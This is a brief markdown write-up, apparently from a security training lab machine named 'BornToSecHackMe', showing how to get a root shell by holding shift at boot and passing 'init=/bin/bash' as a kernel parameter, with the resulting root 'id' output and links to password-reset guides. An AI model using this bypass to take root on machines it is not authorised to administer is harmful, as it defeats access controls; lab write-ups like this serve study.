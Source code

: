 # Boot exploit

During boot, we can press `shift` for bios, it will bring up the boot menu in
single-user mode which allow us to choose a boot and pass init=/bin/bash as
kernel parameters


Step 1 :
- Hold shift during boot

Step 2 :
- live init=/bin/bash

root@BornToSecHackMe:/# id    
uid=0(root) gid=0(root) groups=0(root)


docs :

https://wiki.archlinux.org/index.php/Reset_lost_root_password

https://askubuntu.com/questions/92556/how-do-i-boot-into-a-root-shell

https://www.vultr.com/docs/reset-the-root-password-on-debian
